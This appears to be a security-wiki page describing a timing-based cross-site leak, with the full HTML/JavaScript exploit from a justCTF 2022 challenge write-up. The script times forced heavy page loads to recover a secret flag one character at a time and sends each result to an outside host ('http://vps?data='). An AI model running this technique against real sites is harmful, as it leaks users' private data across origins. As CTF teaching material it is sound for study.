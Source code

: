 # performance.now + Force heavy task


**Exploit taken from [[https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/|https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/]]**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

> [!WARNING]
> Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.

```html
<!DOCTYPE html>
<html>
  
  <body>
    ![[https://deelay.me/30000/https://example.com|]]
    <script>
      fetch("https://deelay.me/30000/https://example.com")

      function send(data) {
        fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
      }

      function leak(char, callback) {
        return new Promise((resolve) => {
          let ss = "just_random_string"
          let url =
            `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg= +
            ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement("object")
          object.width = "2000px"
          object.height = "2000px"
          object.data = url
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log("Error event triggered")
          document.body.appendChild(object)
        })
      }

      send("start")

      let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
      let flag = "justCTF{"

      async function main() {
        let found = 0
        let notFound = 0
        for (let i = 0; i < 3; i++) {
          await leak("..")
        }
        for (let i = 0; i < 3; i++) {
          found += await leak("justCTF")
        }
        for (let i = 0; i < 3; i++) {
          notFound += await leak("NOT_FOUND123")
        }

        found /= 3
        notFound /= 3

        send("found flag:" + found)
        send("not found flag:" + notFound)

        let threshold = found - (found - notFound) / 2
        send("threshold:" + threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while (true) {
          if (flag[flag.length - 1] === "}") {
            break
          }
          for (let char of charset) {
            let trying = flag + char
            let time = 0
            for (let i = 0; i < 3; i++) {
              time += await leak(trying)
            }
            time /= 3
            send("char:" + trying + ",time:" + time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
    </script>
  </body>
</html>
```
```



